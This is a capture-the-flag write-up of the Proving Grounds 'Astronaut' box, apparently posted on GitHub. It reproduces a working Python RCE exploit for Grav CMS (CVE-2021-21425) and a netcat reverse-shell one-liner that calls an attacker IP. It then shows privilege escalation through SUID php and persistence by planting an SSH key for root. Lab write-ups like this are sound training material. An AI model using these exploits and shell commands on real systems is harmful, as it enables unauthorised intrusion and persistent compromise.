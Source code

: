 # Astronaut

### Proving Grounds Practice

Beginning with a typical service and version scan with nmap, we find that only ports 22 (ssh) and 80 (http) are open. Additionally we are informed that there is a directory listing available, notably grav-admin.

#### Nmap Results

```nmap-output

$ nmap 192.168.228.12 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 17:05 EDT
Nmap scan report for 192.168.228.12
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)

80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
|-     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```


Enumerating the website, we in fact find that there is a content management system in use, Grav-CMS.


![image](https://github.com/user-attachments/assets/0d45e3e0-b7ae-4582-9fb7-573951440855)


![image](https://github.com/user-attachments/assets/cc0904c2-185e-4a2b-a47d-6564ca5e889b)


A quick search for related exploits turns up an interesting find. 


#### GravCMS Unauthenticated Arbitrary YAML Write/Update leads to Code Execution (CVE-2021-21425)

```
https://github.com/CsEnox/CVE-2021-21425
```


#### Exploit

```python

#!/usr/bin/python

import requests
from bs4 import BeautifulSoup
from time import sleep
import urllib.parse
import argparse

parser = argparse.ArgumentParser(description='Grav Admin 1.7.10 RCE')
parser.add_argument('-c', help='Command', required=True)
parser.add_argument('-t', help='URL (Eg: http://grav.local)', required=True)
args = parser.parse_args()

url = args.t
cmd = args.c
cmd = urllib.parse.quote(cmd)

session = requests.Session()

# Getting Nonce
r = session.get(url+'/admin')
soup = BeautifulSoup(r.text, features="lxml")
a = str(soup.findAll('input')[3])
nonce = a[47:79]

# Creating File
print("[*] Creating File")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/usr/bin/echo&data[custom_jobs][vwlya][args]={cmd}&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=/tmp/shell.sh&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for file creation, wait one minute")
	sleep(60)

# Running File
print("[*] Running file")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/bin/bash&data[custom_jobs][vwlya][args]=/tmp/shell.sh&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for command, wait one minute")
	sleep(60)

print("Exploit completed")
```


Setting our listener to port 4444. Then sending the exploit command.


![image](https://github.com/user-attachments/assets/ada695c3-222f-427f-961f-c7dee3ccdf58)


#### Command Line

```
python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.21.153 4444 >/tmp/f' -t http://192.168.207.12/grav-admin
```


We get a reverse shell, as www-data.


![image](https://github.com/user-attachments/assets/14e3bca3-8656-4e09-b26a-48b350817cb6)


#### Stabilize Shell

```
export TERM=xterm;python3 -c 'import pty;pty.spawn("/bin/bash")'
```


![image](https://github.com/user-attachments/assets/bb1e2a10-7faf-40fb-abd8-7ddfbf7a2f10)


We cannot check for sudo rights on www-data because we don't have the password. But we can search for binaries that may have the SUID bit set.

#### SUID Hunting

```
find / -perm -u=s 2>/dev/null
```


![image](https://github.com/user-attachments/assets/71cc304e-6c4b-4679-88a9-609b05ad1bba)


Checking out the findings on GTFOBins php seems to be a great candidate for Privilege Escalation.


#### Escalate Privileges

```shell
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```


![image](https://github.com/user-attachments/assets/4bcce87e-17d0-4de1-9c29-1a4e3eed8e1a)


Now that we have root access, we can submit the proof of pwnage. Additionally we can have persistence on the machine by adding our public key to the authorized_keys file.


#### Persistence via SSH

```
cd /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTNoNoNoB5vEuE2CVK/0/xPnhxWfBWGj" >> authorized_keys
```